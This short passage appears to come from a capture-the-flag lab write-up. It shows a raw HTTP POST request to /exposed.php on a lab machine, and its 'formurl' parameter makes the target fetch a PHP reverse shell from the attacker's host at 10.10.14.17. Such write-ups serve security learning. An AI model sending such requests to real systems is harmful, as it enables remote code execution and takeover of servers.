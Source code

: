 ![](2021-02-15-14-49-41.png)



```
POST /exposed.php HTTP/1.1
Host: 10.10.10.24
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://10.10.10.24
Connection: close
Referer: http://10.10.10.24/exposed.php
Upgrade-Insecure-Requests: 1

formurl=http%3a//10.10.14.17/php-reverse-shell.php&submit=Go
```
